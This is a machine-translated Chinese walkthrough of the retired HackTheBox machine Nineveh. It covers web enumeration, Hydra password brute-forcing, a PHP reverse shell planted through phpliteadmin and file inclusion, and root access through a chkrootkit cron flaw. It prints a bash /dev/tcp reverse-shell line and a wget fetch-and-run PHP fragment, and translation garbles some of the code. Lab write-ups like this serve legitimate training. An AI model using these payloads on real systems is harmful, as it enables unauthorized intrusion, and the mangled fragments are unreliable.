# 尼尼微——退休的 HTB 漫游

> 原文：<https://infosecwriteups.com/nineveh-retired-htb-walkthrough-33a15fa0919?source=collection_archive---------0----------------------->



我以前曾用九头蛇做一些网络登录蛮力，在这个最近退休的黑客机器，九头蛇再次派上用场。让我们来看看是什么让这个盒子变得非常有趣，我从中学到了一些很酷的技巧。

我下载虚拟机的来源表明它的静态 IP 是 192.168.0.150。因此，让我们直接在门外对它进行 nmap 测试:



我们看到端口 80 和端口 443 是打开的，仅此而已。看起来这将是一个完全基于网络的挑战。没关系，我喜欢利用网络！让我们看看两个端口上都运行了什么。

端口 80:



端口 443:



我们并没有从这两个静态页面中得到多少，所以让我们首先使用“大”dirb 列表将 dirb 放在端口 80:



我们看到目录/department/，其中包含/files/目录本身。似乎很有趣，所以让我们来看看这个:



太好了，我们可以通过网络登录了。尝试典型的登录，我们注意到当我们有一个错误的用户名时，网站会发出警告。输入用户名“admin ”,它告诉我们错误的密码。现在我们已经枚举了用户名，让我们使用 hydra 和 rockyou.txt 来强行登录:



酷，我们有密码了。让我们登录，看看我们有什么:



请注意，在第二个图像中，URL 指定了要读取的文件。这以后可能会派上用场，但是现在让我们记住它。由于没有什么可看的，让我们在端口 443 上运行一个 dirb:



导航到/db/ we 得到一个 phpliteadmin 登录:



好了，关于九头蛇的话题，让我们再次启动它并登录:



酷，现在我们也有 phpliteadmin 的登录了！登录后，我们会看到典型的 phpMyAdmin 页面，在这里我们可以创建新的数据库和表。让我们创建一个名为 ninevehNotes.txt 的新数据库，因为回到端口 80 端，它在 Notes 页面中读取 ninevehNotes.txt。我们可以创建页面，在数据库中创建一个表，然后给它一个 php 反向 shell 脚本来执行。

> http://X . X . X . X/shell . txt-O/tmp/shell . PHP；PHP/tmp/shell . PHP ")；？>

为 shell.txt 提供以下内容

> &三二> &三)；？>

这一行 php 代码来自我便利的反向 shell 备忘单，可以在[http://pentest monkey . net/cheat-sheet/shell/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)上找到

使用 python 托管我的 shell.txt 所在的 SimpleHTTPServer，我可以获取我的 shell 文件，并通过 url 加载我创建的数据库来用 php 执行它:



在我的本地主机上运行 netcat 监听器允许我捕获我通过管道传输到 IP 的/bin/bash:



环顾四周，我做的第一件事是检查根目录。首先注意到的是一个名为/report 的目录。这个目录中有几个文本文件，包含一个名为 chkrootkit 的已知 rootkit 检查器的输出。这些文件是按分钟来记录日期的，可以看出它每分钟都在准时运行，可能是用 cron 作业。使用 searchsploit，我们了解到 chkrootkit 在运行时容易以 root 用户身份执行特定文件:



很好，接下来我们需要做的是创建一个名为/tmp/update 的文件，它将返回一个反向 shell，该 shell 将以 root 用户身份运行。再次进入反向 shell 备忘单，我们可以使用 bash 后门:

> bash-I > &/dev/TCP/X . X . X . X/1337 0 > & 1

将此写入更新文件，在我的本地机器上抛出另一个 netcat 监听器，并捕获根 shell:

